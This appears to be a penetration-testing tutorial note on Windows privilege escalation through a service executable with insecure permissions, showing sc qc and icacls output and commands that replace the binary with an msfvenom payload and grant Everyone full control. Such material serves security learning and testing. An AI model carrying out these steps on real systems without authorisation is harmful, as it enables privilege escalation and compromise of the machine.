 # Insecure permissions on service executable

Suppose we have found a service with executable that has insecure permissions (eg. `C:\insecure\permissions\bin.exe`). The account is `srv_user`.

```powershell
C:\> sc qc [service_name]
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : ...
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\insecure\permissions\bin.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : [display_name]
        DEPENDENCIES       :
        SERVICE_START_NAME : srv_user
```

The following command (`icacls`) allows us to view the permissions of the executable:

```powershell
C:\>icacls C:\insecure\permissions\bin.exe
C:\insecure\permissions.exe Everyone:(I)(M)
    NT AUTHORITY\SYSTEM:(I)(F)
    BUILTIN\Administrators:(I)(F)
    BUILTIN\Users:(I)(RX)
    ...
    ...
```

The following line: `Everyone:(I)(M)` shows that the `Everyone` group has modify `(M)` permissons on the service executable. This allows us to overwrite the executable with our own payload and have it run as the privileges of the configured service user account.

The following steps can be taken to replace the original `.exe` file with our own:

1. Use the `move` command to move bin.exe to a backup location (`.exe.bkp`). The new location can have any extensions
2. Create a executable payload with `msfvenom`, and move the created payload to the file name of the original file (`bin.exe`)
3. Provide full permission `(F)`to the Everyone group. This allows any user to execute this file.

```powershell
C:\> cd C:\insecure\permission

C:\insecure\permission> move bin.exe bin.exe.bkp
        1 file(s) moved.

C:\insecure\permission> move [path_to_created_exe_payload] bin.exe
        1 file(s) moved.

C:\insecure\permission> icacls bin.exe /grant Everyone:F
        Successfully processed 1 files.
```

When the service is started, the executable created by us will be executed.
